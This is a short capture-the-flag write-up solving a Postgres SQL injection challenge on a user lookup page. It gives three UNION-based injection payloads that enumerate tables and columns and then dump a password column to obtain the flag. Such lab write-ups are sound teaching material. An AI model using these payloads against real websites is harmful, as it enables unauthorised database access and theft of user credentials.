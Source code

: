 # Web: SQLi
Difficulty: Medium/Advanced

In this challenge, you're given a simple user lookup system, where you can input an email and get back a list of usernames. 
You are told that the database is using Postgres and that the website admin made creative table and column names. 

This endpoint is vulnerable to SQL injection. You can get the table names using the following injection (note there must be a space following the --):
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'; -- 

The table name is secret_users_table_sfd33.

You can get the column names using the following query:
' UNION SELECT column_name from information_schema.columns WHERE table_name = 'secret_users_table_sfd33'; -- 

The columns are: ['computername', 'id', 'email', 'passfrase']

We are probably interested in the "passfrase". 
' UNION SELECT passfrase FROM secret_users_table_sfd33; -- 

This gets us the flag. 